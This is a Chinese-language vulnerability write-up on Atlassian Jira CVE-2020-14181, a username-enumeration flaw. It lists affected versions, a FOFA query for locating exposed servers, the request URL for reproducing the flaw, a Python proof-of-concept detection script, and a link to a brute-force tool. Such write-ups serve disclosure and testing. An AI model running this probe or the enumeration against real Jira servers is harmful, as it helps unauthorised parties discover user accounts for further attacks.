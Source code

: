# Atlassian Jira 信息泄露漏洞 CVE-2020-14181

## 漏洞描述

Jira存在一个未授权访问漏洞，未授权的用户可以通过一个api接口直接查询到某用户名的存在情况，该接口不同于CVE-2019-8446和CVE-2019-3403的接口，是一个新的接口。如果Jira暴露在公网中，未授权用户就可以直接访问该接口爆破出潜在的用户名。

## 漏洞影响

> [!NOTE]
>
> Atlassian Jira < 7.13.6
>
> Atlassian Jira 8.0.0 - 8.5.7
>
> Atlassian Jira 8.6.0 - 8.12.0

## FOFA

> [!NOTE]
>
> app="Jira"

## 漏洞复现

打开主界面，注意标识中的 Jira版本是否在影响中

![](image/jira-1.png)

使用POC对用户名是否存在进行验证

http://xxx.xxx.xxx.xxx/secure/ViewUserHover.jspa?username=admin

用户名如果不存在会返回

![](image/jira-2.png)

存在的用户名会返回

![](image/jira-4.png)

不存在漏洞会返回

![](image/jira-3.png)



## 漏洞利用POC

> [!NOTE]
>
> POC只用于探测是否存在漏洞
>
> 爆破可使用:  https://github.com/Rival420/CVE-2020-14181/blob/main/cve-2020-1481.py

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Atlassian Jira < 7.13.6                                   \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.0.0 - 8.5.7                              \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.6.0 - 8.12.0                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/secure/ViewUserHover.jspa?username=peiqipeiqipeiqi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        version = re.findall(r'<span id="footer-build-information">\((.*?)#', response.text)[0]
        print("\033[32m[o] 目标 Jira 版本为{} \033[0m".format(version))
        if "peiqipeiqipeiqi" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](image/jira-6.png)

## Goby & POC

> [!NOTE]
>
> Atlassian Jira 信息泄露漏洞 CVE-2020-14181

![](image/jira-5.png)